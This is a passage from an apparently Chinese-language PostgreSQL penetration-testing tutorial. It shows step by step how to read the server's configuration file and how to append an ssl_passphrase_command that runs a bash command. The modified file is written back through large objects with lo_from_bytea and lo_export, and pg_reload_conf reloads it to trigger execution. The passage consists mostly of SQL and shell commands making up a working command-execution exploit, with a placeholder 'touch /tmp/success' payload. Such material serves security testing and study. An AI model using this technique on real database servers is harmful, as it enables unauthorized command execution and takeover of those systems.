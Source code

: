 [![](assets/1710209150-816f4e0291fd26f98b5ae89fda4b524b.png)](https://r0fus0d.blog.ffffffff0x.com/img/postgresql-pentest/49.png)

读取配置文件内容

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>``` | ```fallback<br>select setting from pg_settings where name='config_file'<br>select pg_read_file('/var/lib/postgresql/data/postgresql.conf');<br>``` |

在原始配置文件内容末尾追加上 ssl 配置

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>``` | ```fallback<br>ssl = on<br>ssl_cert_file = '/etc/ssl/certs/ssl-cert-snakeoil.pem'<br>ssl_key_file = '/var/lib/postgresql/data/PG_VERSION'<br>ssl_passphrase_command_supports_reload = on<br>ssl_passphrase_command = 'bash -c "touch /tmp/success & echo 12345678; exit 0"'<br>``` |

转为 base64 格式

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>``` | ```bash<br># 这里我将配置文件的内容存到了 out.txt 中<br>cat out.txt \| base64 -w 0 > base3.txt<br>``` |

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>9<br>``` | ```sql<br>-- 将修改后的配置文件加载到largeobject中<br>select lo_from_bytea(10001,decode('base64的内容,这里略','base64'));<br><br>-- 通过lo_export覆盖配置文件<br>select lo_export(10001,'/var/lib/postgresql/data/postgresql.conf');<br>SELECT lo_unlink(10001);<br><br>-- 重新加载配置文件<br>select pg_reload_conf();<br>``` |

[![](assets/1710209150-b31dda3a5b7db109b0480f48404d6666.png)](https://r0fus0d.blog.ffffffff0x.com/img/postgresql-pentest/50.png)
